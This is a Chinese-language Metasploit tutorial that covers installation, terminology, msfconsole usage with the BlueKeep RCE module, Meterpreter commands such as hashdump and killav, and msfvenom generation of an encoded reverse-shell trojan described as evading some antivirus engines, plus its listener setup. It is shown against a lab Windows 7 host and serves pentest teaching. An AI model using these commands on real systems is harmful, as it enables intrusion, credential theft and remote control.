




# metasploit

Metasploit是一个免费的、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。它本身附带数百个已知软件漏洞的专业级漏洞攻击工具。当H.D. Moore在2003年发布Metasploit时，计算机安全状况也被永久性地改变了。仿佛一夜之间，任何人都可以成为黑客，每个人都可以使用攻击工具来攻击那些未打过补丁或者刚刚打过补丁的漏洞。软件厂商再也不能推迟发布针对已公布漏洞的补丁了，这是因为Metasploit团队一直都在努力开发各种攻击工具，并将它们贡献给所有Metasploit用户。

该平台包括Metasploit Framework及其商业版本：Metasploit Pro，Express，Community和Nexpose Ultimate。
项目网址：https://github.com/rapid7/metasploit-framework/


## 一 Metasploit社区版的安装

```
apt-get install metasploit-framework
```



安装完成后，可通过如下指令重置数据库。

```
# msfdb reinit
```



随后可通过msfconsole启动metasploit.



如果觉得开机画面并不是自己想要的，可以通过banner切换。




```
msfdb的相关命令：
msfdb init		#启动并初始化数据库
msfdb reinit	#删除并重新初始化数据库
msfdb delete	#删除数据库并停止使用
msfdb start		#启动数据库
msfdb stop		#停止数据库
msfdb status	#检查服务状态
msfdb run		#启动数据库并运行msfconsole
```


## 二 Metasploit术语介绍

Vulnerability（漏洞）
允许攻击者入侵或危害系统安全性的弱点称为漏洞，漏洞可能存在于操作系统，应用软件甚至网络协议中。

Exploit：（攻击代码或程序）
它允许攻击者利用易受攻击的系统并危害其安全性。每个漏洞都有对应的漏洞利用程序。Metasploit有超过 1700 个漏洞利用程序。


Payload：(攻击载荷)

它主要用于建立攻击者和受害者机器直接的连接，Metasploit有超过 500个有效攻击载荷。


Shellcode:

Shellcode是在渗透攻击时作为攻击载荷运行的一组机器指令。Shellcode通常使用汇编语言编写。在大多数情况下，目标系统执行了Shellcode这一组指令后，才会提供一个命令行shell或者meterpreter shell，这也是Shellcode的由来。


Module（模块）
模块是一个完整的构件，每个模块执行特定的任务，并通过几个模块组成一个单元运行。这种架构的好处是可以很容易的将自己写的利用程序和工具集成到框架中。


Listener（侦听器）
侦听器是等待来自被利用系统的传入连接的组件。如果您打算在Metasploit服务器与被利用机器之间建立连接，则必须设置一个侦听器。例如，如果您已将可执行文件交付给目标主机，则需要设置一个侦听器以等待与它的连接。当主机连接到侦听器时，会话将在其计算机上打开，这将使您能够与之交互以执行诸如从其系统收集证据之类的事情。
在Metasploit Pro中，可以设置永久性侦听器，该侦听器将连续侦听来自受损主机的连接。可以从Web界面的“全局设置”区域设置持久性侦听器。每个侦听器都绑定到一个特定的项目。


## 三 Metasploit的基础使用

show exploits
这个命令会显示框架中所有可用的渗透攻击模块。在终端中，你可以针对渗透测试中发现的安全漏洞来实施相应的渗透攻击。


show auxiliary 

这个命令会显示所有的辅助模块及它们的用途.在metasploit中，辅助模块的功能非常广泛，它们可以是扫描器，ddos工具，fuzz测试以及其他类型。


search 2019-0708    

搜索exp名


use exploit/windows/rdp/cve_2019_0708_bluekeep_rce (exp name)

或者

use 1 （exp显示的序号） 

在找到相关模块后，使用use命令加载模块。


show options

用于列出模块所需要的各种参数


show payloads
将显示Metasploit中所有可用的攻击载荷，如果你选择的模块的话，执行show payloads只会看到适用于本模块的的攻击载荷列表。
注意在这个模块下只有针对windows平台的攻击载荷才会显示出来，Metasploit一般会根据环境识别出可在一次特定的渗透攻击中使用的攻击载荷。


show targets

通常攻击模块会自动识别操作系统的信息，自动选择系统版本进行攻击，但是最好还是通过人工更加精准的判别，以避免错误的、破坏性的攻击。


set target 0

设置target的类型


info

当觉得show和search命令所提供的信息过于简短，可以使用info命令加上模块的名字来显示此模块的详细信息、参数说明以及所有可用的操作系统（如果已选择了某个模块，可直接在模块下输入info）


set rhosts 192.168.0.239

unset rhosts 

Metasploit模块中的所有参数只有两个状态：已设置（set）或者未设置（unset）。有些参数会被标记为必填项（required），这样的参数必须经过手工设置并处于启用状态。输入show options命令可以查看哪些参数是必填的；使用set命令可以对某个参数进行设置（同时启用该参数）；使用unset命令可以禁用相关参数。


exploit  or  run  

开始攻击


run  #开始攻击


我们使用exploit命令初始化攻击环境，并开始对目标进行攻击尝试。这次攻击是成功的，为我们返回了一个reverse_tcp方式的Meterpreter攻击载荷会话，此时可以使用session -1命令查看远程运行的Meterpreter情况。可以看到，目前仅有一个会话是活动的。但如果我们 同时对多个目标进行了攻击，会同时开启多个会话.（如果想查看攻击创建的每一个Meterpreler会话的详细信息，你可以输入sessions -1 -v ）

sessions -i 1命令让我们能够与ID为1的控制会话进行交互。注意此时我们进入 了 Meterpreter的交互shell中。如果控制会话是一个反向连接命令行shell,这个命令会直接把我们带到命令提示符状态下。最后在Meterpreter处我们输入shell命令进入了目标系统的交互命令行shell中


## 四 meterpreter 的使用

```
screenshot
sysinfo
getsid
getuid
getsystem
download
upload
run killav
hashdump
shell
chcp65001
```


## 五 利用msfvenom生成木马程序

MSFvenom是Msfpayload和Msfencode的组合，将这两个工具都放在一个Framework实例中。

自2015年6月8日起，msfvenom替换了msfpayload和msfencode。

它的优点是单一,命令行,和效率，利用msfvenom生成木马程序,并在目标机上执行,在本地监听上线。

常用参数解释：

```
-p, --payload <payload> 指定需要使用的payload(攻击荷载)。
-l, --list[module_type] 列出指定模块的所有可用资源. 模块类型包括payloads/encoders,nops,all
-f, --format <format> 指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
-e, --encoder [encoder]   指定需要使用的encoder（编码器）
-a, --arch  <architecture>  指定payload的目标架构
--platform   <platform>  指定payload的目标平台
-x, --template   <path> 指定一个自定义的可执行文件作为模板
```

列出支持的payload

```
msfvenom -l payloads
```

列出支持的编码器

```
msfvenom -l encoders
```

列出支持的格式

```
msfvenom -l formats
```

列出某个payload的信息

```
msfvenom -p windows/meterpreter/reverse_tcp --list-options
```

使用msf生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.0.208 LPORT=5555 -f exe -o farmsec.exe

-p 指定payload
LHOST=192.168.0.208 LPORT=5555 配置反连的端口
-f exe 指定输出的格式为EXE格式。
-e x86/shikata_ga_nai -i 5  使用 x86/shikata_ga_nai 编码5次
-o farmsec.exe  将文件输出为farmsec.exe
```

将生成的木马传送至http://www.virscan.org 进行测试,能够发现躲过了部分杀软的查杀。


启动msf的监听程序。

```
msf6 > use exploit/multi/handle
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.0.208
msf6 exploit(multi/handler) > set lport 5555
msf6 exploit(multi/handler) > exploit
```

将文件发送至我们的Windows7的测试环境。双击运行木马，等待返回meterpreter，直接可以进入shell

同一时间，被攻击的主机则启动了连接远程5555端口的信息.


六 armitage的使用

